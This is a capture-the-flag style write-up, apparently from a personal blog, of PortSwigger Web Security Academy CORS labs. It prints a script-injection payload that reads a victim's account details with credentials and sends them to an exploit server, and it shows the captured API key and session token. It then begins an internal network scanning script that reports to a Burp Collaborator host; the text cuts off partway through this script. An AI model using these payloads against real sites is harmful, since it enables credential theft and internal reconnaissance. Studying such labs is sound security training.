   ![](https://raw.githubusercontent.com/H3X0S3/H3X0S3.github.io/master/assets/img/CORS/CORS-vulnerability-with-trusted-insecure-protocols-1.png)


let's go to exploit server 
 ````
 <script>
 document.location="http://stock.ac6d1f111e6b213580242fdb00b9006b.web-security-academy.net/?productId=2<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://ac6d1f111e6b213580242fdb00b9006b.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://exploit-aca21fea1ed2219780872f2801c100a0.web-security-academy.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script> 
````

in Body: put the code of exploitation and store it 
view the exploit
Delever exploit to victim. 
Access log and search about the key

  ![](https://raw.githubusercontent.com/H3X0S3/H3X0S3.github.io/master/assets/img/CORS/CORS-vulnerability-with-trusted-insecure-protocols-2.png)

let’s decode it 

  ![](https://raw.githubusercontent.com/H3X0S3/H3X0S3.github.io/master/assets/img/CORS/CORS-vulnerability-with-trusted-insecure-protocols-3.png)

 ````/log?key={ "username": "wiener", "email": "", "apikey": "otqfh3jTIGqErn4I8ib7VuCUlKysIHsM", "sessions": [ "rN2NxUM9pl5Pv8V0Eai8TZAPjjuVwN0s" ]}````
 
we can do this attack withot injection js code but we need to do MIM attack to redirect the victime to 
  
Labe Solved

------------

# Lab: CORS vulnerability with internal network pivot attack

After access the lab if we try to log in with any username and password we get
`"Internal Server Error" `.
Try to inject 
 `origin: H3X0S3.com`
`origin: null`
 `origin: subdomain.ac391f1e1e70e8b780907729007f003c.web-security-academy.net`
 there are no reflection headers on the response 
 ok 
 let’s try to scan the local network & now the local IP with 8080 port.
we will use burp collaborator to recive the respone.

````
<script>
var q = [], collaboratorURL = 'http://lc11qok361osfo0bxxpud7zfz65wtl.burpcollaborator.net';
for(i=1;i<=255;i++){
  q.push(
  function(url){
    return function(wait){
    fetchUrl(url,wait);
    }
  }('http://192.168.0.'+i+':8080'));
}
for(i=1;i<=20;i++){
  if(q.length)q.shift()(i*100);
}
function fetchUrl(url, wait){
  var controller = new AbortController(), signal = controller.signal;
  fetch(url, {signal}).then(r=>r.text().then(text=>
    {
